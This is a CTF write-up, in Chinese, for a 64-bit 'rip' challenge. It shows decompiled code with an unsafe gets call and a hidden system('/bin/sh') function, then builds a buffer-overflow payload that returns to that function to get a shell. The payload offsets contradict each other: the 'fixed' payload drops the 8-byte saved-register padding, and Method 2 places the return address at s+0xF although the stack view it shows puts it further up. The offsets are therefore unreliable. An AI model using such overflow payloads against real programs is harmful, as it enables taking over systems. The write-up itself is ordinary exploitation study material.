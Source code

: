 ## rip

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s[15]; // [rsp+1h] [rbp-Fh] BYREF

  puts("please input");
  gets(s, argv);
  puts(s);
  puts("ok,bye!!!");
  return 0;
}
```

危险函数`gets`，缓冲区距离栈顶`0xF`字节

通过Strings view找到`"/bin/sh"`，被`fun`函数引用；函数地址为`0x401186`

```c
int fun()
{
  return system("/bin/sh");
}
```

### 方法1

由于是64位程序，`rbp`大小为`8`，故`payload = b'a' * (0xf+8) + p64(0x401186)` 但攻击失败。搜索了下是栈对其问题

参考：[在一些64位的glibc的payload调用system函数失败问题](http://blog.eonew.cn/archives/958)

```python
payload = b'a' * (0xf) + p64(0x401187)
```

### 方法2

Edit ==> functions ==> Stack variable 查看栈视图，发现返回地址在`s+0xF`处

```x86asm
-000000000000000F s               db ?
-000000000000000E                 db ? ; undefined
-000000000000000D                 db ? ; undefined
-000000000000000C                 db ? ; undefined
-000000000000000B                 db ? ; undefined
-000000000000000A                 db ? ; undefined
-0000000000000009                 db ? ; undefined
-0000000000000008                 db ? ; undefined
-0000000000000007                 db ? ; undefined
-0000000000000006                 db ? ; undefined
-0000000000000005                 db ? ; undefined
-0000000000000004                 db ? ; undefined
-0000000000000003                 db ? ; undefined
-0000000000000002                 db ? ; undefined
-0000000000000001                 db ? ; undefined
+0000000000000000  s              db 8 dup(?)
+0000000000000008  r              db 8 dup(?)
```
